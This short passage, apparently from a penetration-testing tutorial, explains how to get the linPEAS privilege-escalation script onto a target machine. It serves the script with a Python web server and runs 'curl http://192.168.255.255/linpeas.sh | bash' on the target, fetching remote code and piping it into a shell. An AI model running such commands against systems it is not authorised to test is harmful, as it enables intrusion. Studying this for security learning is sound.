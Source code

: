 The first course of action with linPEAS is getting it on to the target machine
Start by opening up a python web server in the directory where linpeas.sh is located
```
python3 -m http.server 80
```
FYI if you don't know where linpeas.sh is check /usr/share/peass/linpeas


then using curl, wget, or something similar, to download linpeas from your machine onto the target machine
```
curl http://192.168.255.255/linpeas.sh | bash
```

